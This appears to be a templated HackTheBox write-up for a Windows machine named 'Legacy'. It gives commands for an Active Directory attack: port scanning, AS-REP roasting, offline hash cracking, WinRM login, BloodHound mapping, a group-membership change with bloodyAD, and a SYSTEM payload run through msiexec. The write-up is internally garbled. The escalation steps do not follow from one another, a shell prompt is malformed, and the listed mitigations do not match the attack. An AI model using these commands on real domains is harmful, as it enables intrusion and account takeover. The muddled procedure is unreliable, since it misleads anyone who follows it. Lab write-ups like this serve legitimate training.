

## 🖥️ Machine Information

| Attribute | Value |
|---|---|
| **Platform** | HackTheBox |
| **OS** | 🪟 Windows |
| **Difficulty** | Easy |
| **IP Address** | `10.10.10.4` |
| **Release Date** | 12 Oct 2025 |

---

## 🧠 Attack Path Overview



> [!NOTE]
> This writeup details the complete attack path for the **Legacy** machine on the **HackTheBox** platform.

---

## 🔍 Phase 1: Reconnaissance & Enumeration

### 1. Host Discovery & Port Scanning
We scan the host using Nmap:

```bash
vulnquest@kali$ sudo nmap -p- --reason --min-rate 10000 10.10.10.4
```

#### Open Ports:
- **Port 53/tcp**: DNS
- **Port 88/tcp**: Kerberos
- **Port 135/tcp**: Microsoft RPC
- **Port 389/tcp**: LDAP
- **Port 445/tcp**: SMB (Server Message Block)
- **Port 5985/tcp**: WinRM (Windows Remote Management)

### 2. Service Enumeration
We audit SMB shares using `netexec`:
```bash
vulnquest@kali$ netexec smb 10.10.10.4 -u guest -p ''
```

---

## 🚀 Phase 2: Vulnerability Analysis & Foothold

### 1. Vulnerability Analysis
We perform LDAP enumeration and discover potential usernames. Using `GetNPUsers` we query for accounts with Kerberos pre-authentication disabled:

```bash
vulnquest@kali$ GetNPUsers.py -dc-ip 10.10.10.4 -no-pass -usersfile users.txt domain/
```

### 2. Exploitation & Initial Shell
We crack the retrieved ticket offline using hashcat:
```bash
vulnquest@kali$ hashcat -m 18200 hash.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

We establish WinRM access as `web_svc`:
```bash
vulnquest@kali$ evil-winrm -i 10.10.10.4 -u web_svc -p password123
vulnquest@kali$ evil-winrm-py PS C:\Users\web_svc>
```

---

## ⚡ Phase 3: Privilege Escalation

### 1. Local Enumeration
We run BloodHound to map privilege paths in Active Directory:

```bash
vulnquest@kali$ netexec ldap 10.10.10.4 -u web_svc -p password123 --bloodhound -c all
```

### 2. Local Privilege Escalation Path
BloodHound reveals that `web_svc` has delegate permissions on the `IT_Support` group. We add ourselves and trigger a password reset:
```bash
vulnquest@kali$ bloodyAD -u web_svc -p password123 --host 10.10.10.4 add groupMember IT_Support web_svc
```

With these rights, we reset a high-privileged service account's password and execute an administrative payload using `msiexec` to run command as SYSTEM:
```powershell
*\msiexec.exe /i shell.msi /quiet /qn
```

---

## 🛡️ Key Takeaways & Mitigation
1. **Input Sanitization**: Ensure all user inputs are validated and sanitized to prevent injections.
2. **Principle of Least Privilege**: Restrict sudo/impersonation permissions and remove unnecessary privileges.
3. **Keep Software Updated**: Frequently update all operating system binaries and services to mitigate known CVEs.
